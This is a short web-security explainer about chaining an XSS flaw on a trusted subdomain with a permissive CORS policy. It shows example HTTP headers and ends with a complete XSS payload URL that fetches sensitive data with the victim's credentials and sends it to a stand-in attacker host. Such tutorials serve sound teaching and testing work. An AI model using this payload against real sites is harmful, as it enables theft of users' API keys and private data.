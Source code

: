 <!-- @TODO: Link XSS -->
Even if properly configured CORS established a trusted and secured connection between two origins, if one origin trusted another origin that is vulnerable to Cross-Site Scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the origin that trusts the vulnerable application.

Given the following request:
```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
If the server responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
Then the attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, for example, using a URL like:
```txt
https://subdomain.vulnerable-website.com/?xss=<script>var xhr = new XMLHttpRequest(); var url = "https://vulnerable-website.com";  xhr.onreadystatechange = function () {  if (xhr.readyState == XMLHttpRequest.DONE) {   fetch("https://attacker-owned-website.com/log?key=" + xhr.responseText);  }; }; xhr.open("GET", url + "/sensitiveData", true); xhr.withCredentials = true; xhr.send(null);</script>
```